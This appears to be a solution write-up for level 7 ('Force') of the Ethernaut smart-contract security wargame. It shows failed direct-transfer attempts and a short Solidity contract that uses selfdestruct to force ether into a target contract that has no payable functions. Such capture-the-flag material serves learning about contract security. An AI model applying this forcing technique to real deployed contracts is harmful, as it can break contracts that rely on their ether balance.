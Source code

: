 [7 - Force](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)

Solution: 
* one way to force ether into contract is through using another contract's self-distruct opcode, which sends all balance to another address
* another way might be using fallback/receive functions?
```
await contract.sendTransaction({value: 1}); // failed since contract doesn't have **payable receive** function
await contract.sendTransaction({data: "0xfe", value: 1}); // failed since contract doesn't have **payable fallback** function
```
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceSolution {
  address payable private constant forceContractAddress = payable(0x60f258910759746c32a8f04baD582ff736799319);

  receive() external payable {}

  function solve() external {
    selfdestruct(forceContractAddress);
  }
}
sent 10 wei to ForceSolution contract
called solve() on ForceSolution contract, which should send the 10 wei balance to the Force contract
```
